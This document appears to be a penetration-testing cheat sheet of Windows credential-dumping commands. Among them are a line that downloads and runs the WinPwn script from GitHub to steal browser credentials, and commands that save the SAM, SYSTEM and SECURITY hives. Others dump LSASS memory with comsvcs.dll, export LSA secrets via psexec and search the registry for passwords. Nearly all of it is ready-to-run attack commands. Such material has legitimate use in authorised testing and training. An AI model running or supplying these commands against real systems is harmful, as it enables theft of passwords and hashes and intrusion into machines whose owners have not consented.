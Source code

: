 # Dump Credentials

We can leverage these methods to dump various credentials of a target system.

## Dump Credentials

- Microsoft Credentials

    ```powershell
    vaultcmd /listcreds:"Windows Credentials" /all
    ```

- Browser Credentials

    This command dumps credentials stored in browsers.

    ```powershell
    iex(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/WinPwn.ps1')
    Kittielocal -noninteractive -browsercredentials
    ```

## Dump Registry Hives

- Registry

    ```powershell
    reg save HKLM\SECURITY .\security.bak
    reg save HKLM\SYSTEM .\system.bak
    reg save HKLM\SAM .\sam.bak
    ```

- Esentutl

    These commands copy the registry hives to each file with Volume Shadow Copies (vss)

    ```powershell
    esentutl /y /vss C:\Windows\System32\config\SECURITY /d .\security.bak
    esentutl /y /vss C:\Windows\System32\config\SYSTEM /d .\system.bak
    esentutl /y /vss C:\Windows\System32\config\SAM /d .\sam.bak
    ```

## Dump LSASS Memory

The LSASS memory may contain sensitive information, so we want to dump the memory:

```powershell
# 1. Find the PID of LSASS process
tasklist
# or
Get-Process

# 2. Dump LSASS memory. Replace <LSASS_PID> with actual PID
rundll32 C:\Windows\System32\comsvcs.dll,MiniDump <LSASS_PID> C:\lsass.dmp full
```

## Dump LSA Secrets

```powershell
psexec -accepteula -s reg save HKLM\Security\Policy\Secrets C:\Users\<user>\Desktop\secrets /y
```

After dumping, the file can be extracted using some tools such as Mimikatz.

## Find Sensitive Words

The following command finds `password` strings in Registry.

```powershell
reg query HKLM /f password /t REG_SZ /s
```